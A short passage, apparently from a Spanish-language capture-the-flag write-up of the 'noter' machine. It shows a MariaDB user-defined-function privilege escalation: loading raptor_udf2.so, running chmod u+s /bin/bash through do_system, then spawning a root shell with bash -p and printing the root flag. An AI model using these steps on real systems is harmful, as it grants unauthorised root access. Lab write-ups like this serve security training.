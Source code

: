 Creo una función donde inyectaré el comando

```
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.000 sec)
```

Le asigno el priveligio SUID a la ```bash```

```
MariaDB [mysql]> select do_system('chmod u+s /bin/bash');
+----------------------------------+
| do_system('chmod u+s /bin/bash') |
+----------------------------------+
|                                0 |
+----------------------------------+
1 row in set (0.002 sec)

MariaDB [mysql]> exit
Bye
```

Puedo ver la segunda flag

```null
svc@noter:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
svc@noter:/tmp$ bash -p
bash-5.0# cat /root/root.txt
0ffe7d67bab1fc37c215eaed0189a53b
```